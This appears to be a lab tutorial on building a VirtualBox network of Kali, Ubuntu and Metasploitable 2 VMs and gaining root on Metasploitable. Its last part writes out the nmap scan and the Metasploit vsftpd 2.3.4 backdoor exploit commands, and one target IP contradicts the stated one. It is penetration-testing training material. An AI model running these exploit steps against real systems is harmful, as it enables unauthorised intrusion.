




Step 1: Download VirtualBox and create three virtual machines with 3 different Operating Systems.
1.1 Go to Oracle's website and download VirtialBox.
1.2 Install Kali Linux, Ubuntu, and Metasploitable 2 on the VirtualBox.
  Step 2: Enable communication between the three virtual machines.
2.1 Set up a NAT network.
* NAT network creates a network inside of the virtual machine, and thus allows the virtual machines to communicate
with one another, as well as communicate with the Internet.
2.2 Set up a host-only network.
* Host-only network allows VMs interconnect with each other without any outside connectivity.
2.3 Configure Kali abd Ubuntu VMs (Metaspoloitable excluded) so that they are on the NAT network.
2.4 Configure all three VMs so that they are on the host-only network.
2.5 Use netcat to communicate between the VMs.
Two VMs (Kali on the left and Metasploitable2 on the right

NAT Network Tutorial:
Host-Only Network Tutorial:
Step 3: Gain root access to Metasploitable VM from Kali VM.
One way to do this is:
1. Use nmap to check the network services running on Metasploitable2. 192.168.56.103 is my Metasploitable2 VM IP address. The -sV flag checks the versions of the network processors, and the -O flag checks operating system that the machine is running on.
~# nmap -sV -O 192.168.56.103
Enter msfconsole to use Metasploit.
~# msfconsole
Exploit vsftpd 2.3.4 with the following command.
> use exploit/unix/ftp/vsftpd_234_backdoor
Show options to check parameters.
> show options
Set RHOST to the IP of the target we want to exploit
> set RHOST 102.168.56.103
Enter exploit to access the Metasploitable2 VM.
> exploit
Check if we have root access.
whoami